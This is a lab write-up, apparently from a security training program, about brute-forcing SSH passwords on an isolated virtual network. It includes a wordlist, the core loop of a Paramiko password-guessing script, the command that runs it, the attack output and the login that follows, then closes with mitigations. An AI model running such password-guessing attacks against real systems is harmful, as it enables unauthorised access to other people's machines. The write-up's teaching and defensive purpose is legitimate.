






## 📌 Overview

This tutorial demonstrates the process of brute-forcing SSH authentication using a custom-built script:

* SSH authentication workflow
* Wordlist-based password attacks
* Custom brute-force script development
* Handling authentication responses
* Credential discovery and validation

Unlike relying on automated tools, this approach provides deeper insight into how brute-force attacks function internally.

---

## 🧪 In this write-up, we cover

* SSH service configuration
* Target user identification
* Password brute-force logic
* Script execution and behavior
* Credential validation

---

## 🛠 Core Concepts & Tools

* **Python (Paramiko)** → SSH automation
* **Custom Script** → Brute-force logic implementation
* **Kali Linux** → Attacker machine
* **Ubuntu (OpenSSH Server)** → Target machine
* **Wordlists** → Password candidates
* **Host-Only Network** → Isolated lab environment

---

## 🧭 Walkthrough

---

### 1️⃣ Target Configuration

The target system was configured with SSH enabled.

```text
Target IP: 10.10.10.10
Service: SSH (Port 22)
Target User: Idontknow
```

SSH service was started and verified to be running on the Ubuntu machine.

---

### 2️⃣ Network Setup

An isolated host-only network was configured:

```text
Attacker (Kali): 10.10.10.20  
Target (Ubuntu): 10.10.10.10
```

Connectivity was verified to ensure communication between attacker and target systems.



---

### 3️⃣ Wordlist-Based Brute-Force

A wordlist-driven approach was used to perform password guessing.

Example entries:

```text
000000
michelle
tigger
sunshine
chocolate
password1234
```

✔ Each password is tested sequentially
✔ Attack continues until valid credentials are found

---

### 4️⃣ Custom Script Logic

A Python-based script was developed using Paramiko to automate SSH authentication attempts.

Core logic:

```python
for password in passlist:
    if is_ssh_open(host, user, password):
        break
```

**Script Capabilities:**

* Establishes SSH connections
* Handles authentication failures
* Detects successful login attempts
* Manages rate limiting conditions
* Outputs results in real time

---

### 5️⃣ Attack Execution

The brute-force attack was executed from the attacker machine:

```bash
python3 Brute-force.py 10.10.10.10 -u Idontknow -P passwords.txt
```



---

### 6️⃣ Live Attack Output

Captured during execution:

```text
[*] Quota exceeded, retrying with delay...
[!] Invalid credentials for Idontknow:000000
[!] Invalid credentials for Idontknow:michelle
[!] Invalid credentials for Idontknow:tigger
[!] Invalid credentials for Idontknow:sunshine
[!] Invalid credentials for Idontknow:chocolate

[+] Found combo:
    HOSTNAME: 10.10.10.10
    USERNAME: Idontknow
    PASSWORD: password1234
```



🔍 **Key Observations:**

* Multiple failed attempts confirm systematic password guessing
* Rate limiting was encountered and handled within the script
* Valid credentials were successfully identified

---

### 7️⃣ Credential Discovery

```text
Username: Idontknow
Password: password1234
```

> **The use of a weak password enabled successful authentication.**

---

### 8️⃣ Access Validation

Following credential discovery, access to the target system was established:

```bash
ssh Idontknow@10.10.10.10
```

Verification:

```bash
whoami
```

Output:

```text
Idontknow
```





🔍 **Exploit Dev Focus:**
Successful authentication confirms initial access to the system and demonstrates the impact of weak credential policies.


---

### 9️⃣ Attack Behavior Analysis

The script effectively handled different authentication scenarios:

* Invalid credentials → continued execution
* Rate limiting → delayed retry mechanism
* Successful authentication → terminated process

This reflects the internal behavior of brute-force tools and highlights the importance of handling server-side responses.

---

## 📊 What You Learn

* How SSH authentication can be targeted
* How brute-force attacks operate internally
* How to build and execute a custom attack script
* How to validate successful system access
* The risks associated with weak passwords

---

## Limitations

* Single-threaded execution → slower performance
* Large wordlists significantly increase runtime
* Easily detectable through system logs and monitoring

---

## Mitigation

* Enforce strong password policies
* Disable password-based SSH authentication
* Implement rate limiting (e.g., Fail2Ban)
* Monitor authentication attempts and logs

---

## 📌 Conclusion

This lab demonstrates how weak authentication practices can lead to system compromise:

* Weak passwords → primary vulnerability
* Brute-force attacks → exploitation method
* SSH access → initial system foothold

Developing a custom brute-force script provides deeper understanding of:

* Authentication mechanisms
* Attack automation
* Real-world exploitation workflows

---

> “Strong systems fail when weak credentials are allowed.”

---

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and practical execution.

---

**Happy hacking 🚀**


